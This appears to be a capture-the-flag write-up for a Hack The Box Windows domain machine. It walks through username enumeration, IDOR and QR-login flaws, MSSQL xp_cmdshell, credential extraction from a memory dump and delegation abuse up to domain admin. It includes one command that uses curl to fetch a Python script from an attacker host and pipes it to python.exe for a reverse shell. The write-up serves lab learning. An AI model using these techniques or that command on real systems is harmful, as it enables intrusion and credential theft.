

# PORT SCAN	
* **53** &#8594; DNS
* **80** &#8594; HTTP (NGINX 1.25.5)
* **88** &#8594; KERBEROS
* **135** &#8594; MSRPC
* **139 / 445** &#8594; SMB
* **389 / 636** &#8594; LDAP
* **5985** &#8594; WINRM
* **55297** &#8594; MSSQL EXPRESS 2019

   

# ENUMERATION & USER FLAG

The NSE on MSSQL EXPRESS server retrieved a lot of info about the domain.

All right pretty hard now because without an username we cannot access to nothing. I smash my head to the wall but I get the idea adter short delay, we have no username? Let's use [kerbrute](https://github.com/ropnop/kerbrute?tab=readme-ov-file)! Remember CTF are just games after all so we can use the SecLists username list and see if we get some results...

Damn, cool stuff! But sometimes this tool return some false positive but worry not we can check it with ASREP Roasting technique, luckly all the users are valide into the domain!

> I just saw an info box on HTB website that state the port 80 of freelancer can get some minutes to pop up. I had to restart to show it back so this is why I started directly with AD protocols...yeah sometimes thing are just a matter of small issue because I was pretty lost after this.

This is the website, 10/10 design score!

Ok cool stuff, we have 2 different register user type **<u>employer</u>** and **<u>freelacer</u>**! The only difference between this 2 is that for the employer role to be actived manually by someone in order to be used....interesting! Moreover we have another login form into `/admin`

Let's create a new freelancer account and let's try to understand what we have available....here you are!

We have now access to the Blog section where I found an employer profile named **<u>Crista Watterson</u>!**

The link to the profile reveals the ID `http://freelancer.htb/accounts/profile/visit/5/` interesting a sort of IDOR here!

With some tricks I found an employer account that I have created playing with ID and found that the one with ID 10019 is mine!

Now we have a ogic vulnerability here because look what is written into the **<u>Forgot Password</u>** section...

Yeah so in order to activate our we just need...to recover our password with a new one! We have control into the **employer dashboard** now!

Now let's look here, we have something new for an HTB machine a QR generator (refresh every 5 mins) that permits to login as this user we are authenticated with automatically. Now a QR code is simply an encoded URL and with this [website](https://qreader.online/) I was abel to read it and retrieve the URL.

Cool another IDOR because the path start with the base64 string of the user ID plus an (apparently) nonce which change every 5 mins. What if we change the first part with the base64 of `5`, the ID of Crista? 

Booom! Cool stuff now we know how to login as every user, we just need to find the ID. You know who have ID `2`? ADMIN!

Probably this user have some more option that would help us to going through! Well after login as this user we can navigate to **<u>/admin</u>** and thanks to the cookie obtained everything will be smooth!

SQL TERMINAL? OOOOOH UAAAAAU

Cool stuff eheheheh, I have checked if we can impersonate a sysadmin and well we can!

After enabling `xp_cmdshell` we can execute OS commands!

With some enumeration I found that Windows Defender is enabled but we have **<u>python.exe</u>** installed and with this small onhe liner I was able to execute a remote python reverse shell : `EXEC xp_cmdshell "curl http://10.10.14.11/re.py | python.exe";`

Inside the Download folder of sql_svc I found a **.INI** file thatcontains a password...if you watch Attack On Titan you already now who this password belongs to! 

Cool but no WinRM access, no worries because `RunasCs.exe` is here to save the day!

With the same python script I was able to receive a reverse shell as **<u>mikasaAckerman</u>** and we can read the first flag!

# PRIVILEGE ESCALATION

Inside the desktop folder of **mikasaAckerman** we have a saved note in txt format...

Interesting stuff, upload netact and use it to get locally the 7z archive which contains a `.DMP` file

Well I hate to use Windows no matter what the task is but I discover this really cool project, [memprocFS](https://github.com/ufrisk/MemProcFS). This tool permits to view dump files in ad-hoc filesystem. Really easy and game-changer I would reuse it for sure, documentation clear and easy to use!

In `sys/proc` we can view te processes that were running during the dump. Nothing usefull here...rip

Well the real deal here is the `registry/` path that contains `SAM`, `SAVE` and `SYSTEM`....**<u>pypykatz</u>** kicks in!

At the real end we have the LSA secrets (obviously the other hashes would not work into the machine domain) where we have 2 plaintext!

The last one worked with the user `lorra199`, finally!

Using bloodhound I was able to see that this user have genericWrite on the machine (Domain Controller) so Resourced Based Contrained Delegation can be achived! 

First thing first let's create a Computer object (quota is 10) that we fully controll

Let's allow this machine to delegate to the DC through **S4U2PROXY**

Now we can request a TGS impersonating the Administrator of the DC, smooth af! 

With DC-SYNC we are now in controll of the Domain Admin and we can use his hash to get the root flag!

> memprocFS is cool as fuck!
